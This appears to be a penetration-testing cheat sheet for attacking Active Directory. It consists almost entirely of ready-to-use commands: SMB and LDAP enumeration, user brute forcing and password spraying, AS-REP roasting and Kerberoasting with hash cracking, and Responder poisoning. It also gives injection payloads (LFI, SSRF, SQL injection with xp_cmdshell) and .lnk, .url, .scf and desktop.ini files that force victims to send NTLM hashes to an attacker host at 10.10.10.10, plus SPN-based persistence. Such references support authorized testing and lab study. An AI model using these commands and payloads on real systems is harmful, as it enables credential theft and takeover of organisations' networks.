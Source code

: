 # Active Directory

## AD enum (NO creds/sessions)

### Basic recon

```bash
nxc smb <target>
enum4linux -a <target>
nmap -n -sV --script "ldap* and not brute" -p 389 <target>
```

### SMB enum

```bash
# null session
nxc smb <IP> -u '' -p '' --shares
# guest
nxc smb <IP> -u 'guest' -p '' --shares
```

```bash
# null session
smbclient -N -L //<target>
# guest
smbclient -U 'guest%' -L //<target>
# conect to a share
smbclient [-U 'guest%'] [-N] //<target>/<share>
```

```bash
# null session
smbmap -H <target>
# guest
smbmap -u 'guest' -p '' -H <target>
# recursive listing
smbmap [-u 'guest' -p '] -H <target> -r [<share>]
```

### User enum

```bash
#kerbrute
kerbrute userenum -d <domain> [--dc <target>] users.txt
```

```bash
# smb/rpc/ldap
nxc smb <target> [-u 'guest' -p ''] --users
rpcdump.py [[domain/]guest:@]<target>
```

```bash
# rid cycling
nxc smb [-u 'guest' -p ''] --rid-brute <target>
lookupsid.py [-no-pass] [[domain/]guest:@]<target>
seq 500 1500 xargs -P 50 -I{} rpcclient -U 'guest%' <target> -c 'lookupsids S-1-123-{}'
```

### With valid username list

* AS-REP Roast

```bash
GetNPUsers.py -no-pass -usersfile valid_users.txt <domain>/
```

* Password Spraying/Brute Forcing

```bash
# brute forcing
nxc smb <target> -u valid_users.txt -p passwords.txt
kerbrute bruteuser -d <domain> [--dc <target>] passwords.txt '<user>'

# password spraying
nxc smb <target> -u valid_users.txt -p '<password>'
kerbrute passwordspray -d <domain> [--dc <target>] valid_users.txt '<password>'
```

### Capturing NTLM hashes

#### Network poisoning

```bash
responder -I <interface>
```

#### Possible Attacks

> https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/

* Via web vulnerability

&#x20;If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

```powershell
# LFI
?page=\\10.10.10.10\test

# SSRF
?url=file://10.10.10.10/test

# SQL Injection
?id=1' union select null,load_file('\\\\10.10.10.10\\test'),null-- -
# MSSQL
?id=1' union select null,(select x from OpenRowset(BULK '\\10.10.10.10\test',SINGLE_CLOB) R(x)),null-- -
?id=1' union select null,(EXEC xp_cmdshell 'dir \\10.10.10.10\test'),null-- -
```

* Shortcut.lnk File

```powershell
# Create a shortcut.lnk with PowerShell
$targetPath = "\\10.10.10.10\test" 
$shortcutPath = "C:\path\to\your\~shortcut.lnk" 
$WScriptShell = New-Object -ComObject WScript.Shell 
$shortcut = $WScriptShell.CreateShortcut($shortcutPath) 
$shortcut.TargetPath = $targetPath 
$shortcut.Save()
```

* Shortcut.url File

```powershell
# Create a shortcut.url with PowerShell
echo '[InternetShortcut]' > ~shortcut.url
echo 'URL=file:///\\10.10.10.10\test' >> ~shortcut.url
```

* SCF File

```powershell
echo '[Shell]' > ~file.scf
echo 'Command=2' >> ~file.scf
echo 'IconFile=explorer.exe,3' >> ~file.scf
echo '[Taskbar]' >> ~file.scf
echo 'Command=ToggleDesktop' >> ~file.scf
echo '[InternetShortcut]' >> ~file.scf
echo 'URL=file:///\\10.10.10.10\test' >> ~file.scf
```

* Desktop.ini File

```powershell
echo '[.ShellClassInfo]' > desktop.ini
echo 'IconResource=\\10.10.10.10\test' >> desktop.ini
attrib +s +h desktop.ini
```

## AD enum (WITH creds/sessions)

### BloodHound enum

You have to configure your neo4j and bloodhound on your machine, then:

```bash
# neo4j
export JAVA_HOME=/usr/lib/jvm/java-11-openjdk/ && neo4j console
# bloodhound
bloodhound
```

#### SharpHound

> https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
# EXE
.\SharpHound.exe -CollectionMethods All
# PS1
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethods All -OutputDirectory .
```

### Kerberoast

{% hint style="danger" %}
If you find this error from Linux: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC. There are a few options:

```bash
ntpdate <target>
rdate -n <target>
```
{% endhint %}

#### Attack

```bash
GetUserSPNs.py -request [-dc-ip <target>] <domain>/<user>:<password>
```

#### Cracking

```bash
john --format=krb5tgs --wordlist=passwords.txt hashes
hashcat -m 13100 --force -a 0 hashes passwords.txt
```

#### Persistence

> https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

```powershell
#PowerView
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='test/test'} -verbose
```
